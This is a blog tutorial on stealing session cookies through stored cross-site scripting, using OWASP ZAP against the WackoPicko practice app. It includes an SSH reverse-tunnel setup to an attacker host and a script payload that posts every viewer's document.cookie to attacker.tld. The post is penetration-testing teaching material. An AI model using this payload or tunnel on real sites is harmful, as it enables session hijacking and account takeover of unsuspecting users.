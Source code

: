 +++
author = "Anthony Cozamanis"
title = "Exploiting Cross-Site Scripting to Steal Cookies with OWASP ZAP"
date = "2023-05-13"
description = "In this brief piece, you'll learn about using OWASP ZAP to obtain Cookies through XSS."
tags = [
    "owsap",
    "zap",
    "pentesting",
]
series = ["OWASP ZAP"]
+++

Using cross-site scripting (XSS) to steal cookies is a common method of exploitation as cookies are widely used by web applications for session management. With some XSS vulnerabilities, an attacker can forward the victim's cookies to their own domain, manually insert them into their browser, and assume the victim's identity.

However, there are several limitations to this approach in practice, including the possibility that the victim is not logged in, that cookies are hidden from JavaScript using the HttpOnly flag, that sessions are locked to additional factors such as the user's IP address, and that the session might time out before it can be hijacked.

In this scenario, a simulated victim user views comments on a WackoPicko blog after they are posted, which activates the persistent XSS, causing the user's cookies to be sent to a host controlled by the attacker. The following example leverages OWASP ZAP.

![e8bba8fb1f1846b61738e8c2bca29515.png](/img/e8bba8fb1f1846b61738e8c2bca29515.png)

- Access your remote C2 server via SSH and modify `/etc/ssh/sshd_config` so the following are enabled:
```
AllowTcpForwarding yes
GatewayPorts yes
```
- Restart sshd with systemd:
```
sudo systemctl restart ssh
```
- From your attacking machine, create a tunnel via SSH from the remote server so that anything that hits port 38193 will be redirected to the attacker's instance of ZAP
```
ssh -N -R 38193:localhost:38193 user@attacker.tld
```
- Going back to ZAP, open the Options menu and go to the go to "Callback Address" entering the following:

![c0189e9bd3e534db36df492376038540.png](/img/c0189e9bd3e534db36df492376038540.png)

- Go back to the Guestbook and submit the following payload in a blog comment, inserting your Test URL:
```js
<script>
fetch('http://attacker.tld:38193/ZapTest', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
- This script will make anyone who views the comment issue a POST request to `http://attacker.tld:38193/ZapTest` containing their cookie.
- Go back to the Callbacks tab (which you may need to add)

![ba01af62bf03c39585378ce49a4de12b.png](/img/ba01af62bf03c39585378ce49a4de12b.png)

You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds.

![b5f0caabe46fa3b6cacfb7e258bb4c07.png](/img/b5f0caabe46fa3b6cacfb7e258bb4c07.png)

- Take a note of the value of the victim's cookie in the POST body.